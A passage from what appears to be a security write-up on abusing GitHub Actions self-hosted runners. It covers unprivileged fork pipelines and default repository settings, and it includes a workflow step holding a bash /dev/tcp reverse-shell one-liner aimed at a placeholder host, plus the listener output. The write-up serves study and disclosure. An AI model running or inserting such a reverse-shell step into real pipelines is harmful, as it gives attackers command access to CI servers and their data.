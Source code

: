 ```
Run gh auth status
github.com
  ✓ Logged in to github.com account github-actions[bot] (GH_TOKEN)
  - Active account: true
  - Git operations protocol: https
  - Token: ghs_************************************
```
As expected, this didn't work. GitHub will indeed execute the pipeline but this will be dropped into a GitHub runner without any privileges. Trying to execute any `gh` command or any GitHub API queries will result in 403. Also, any secrets are not passed to the pipeline.
 
> Side note: the default configuration for a new repository is that any new contributors will require approval in order to run any external pipelines. Still, this can be disabled so everyone can run it (and I'm pretty sure there are repositories out there with it enabled)
 
At this point, I was no longer interested in the challenge but more in what could I do with this so I went back to playing with my own self-hosted runner.
 
## Compromising the server
 
To set up a self-hosted runner, all you need to do is follow the steps pointed by GitHub:

1. Download the compressed runner code.
2. Configure against the repo with a token
3. Run it
 
And it will start receiving jobs.
 
With this in mind, knowing the self-hosted runner will run **any** code I pass, my next attempt was (as anyone will do) to try to execute a shell.
 
```yaml
    steps:
      - run: |
          bash -i >& /dev/tcp/XXXXXX/4444 0>&1
```
Update the code, push again and... I got a reverse shell.


```bash
Listening on 0.0.0.0 4444
Connection received on XXXXXXX 48520
cicd@9a24bf4daf97:~/actions-runner/_work/cicd/cicd
```

Cool, I guess I'm an unprivileged user, right...? A quick `id` showed that I was the same user as the one that set up the self-hosted runner.
 
Can I read stuff? Yes.
 
Can I edit stuff? Yes.
 
A regular shell, the same privileges as I had when I first enabled the runner.

Interesting enough, even if the original repository doesn't have any workflows at all, this will still trigger as the newly created repos have the option of `Allow all actions and reusable workflows` enabled by default.
